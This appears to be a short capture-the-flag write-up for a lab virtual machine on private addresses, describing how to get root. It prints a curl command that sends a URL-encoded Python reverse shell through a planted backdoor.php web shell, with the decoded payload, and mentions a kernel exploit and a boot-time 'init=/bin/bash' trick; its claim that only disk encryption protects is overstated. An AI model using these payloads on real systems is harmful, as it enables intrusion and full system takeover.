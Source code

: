 # writeup 2

We have to do in the same way as in **writeup1** until using **curl** tool))

After doing that we have an incredible way to get the control of the root

**BACKDOOR**

A "backdoor" in the context of computing refers to a hidden method for bypassing normal authentication or security controls, it allows unauthorized access to systems, applications, or networks, often without being detected

Do not be scared, everything is done for educational purposes)

<img src="img/photo_5435923932709510476_y.jpg">

here is the encrepted code of it 

```
curl --insecure 'https://192.168.56.101/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.1%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

Don't be scared 2, this is just an url encode python code of this

```
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=pty.spawn("/bin/bash");
```

You can syplly write on your own code then just seach on Google **url encoder** and translate to this

We have done this to get a reverse shell and execute cmd on server,

So, now we need some kind of kernel exploit to have a root

On this picture you can see cmds and potential issues.

<img src="img/photo_5435923932709510484_y.jpg">

If you see exact same thing, Congratulations!!!🥳 you also got an error🆘😅
This shows that curl did not work properly -> to fix it do this

```
cat > dirty.c << end
# and we gonna copy code here
```


```
#{partition} init=/bin/bash,
live init=/bin/bash
```
And we get the following result

<img src="img/Pasted image 20240712012047.png">

By the way, it turns out that this method works almost on all linux systems currently, and the only way to protect from this is to simply encrypt the disk 🙂
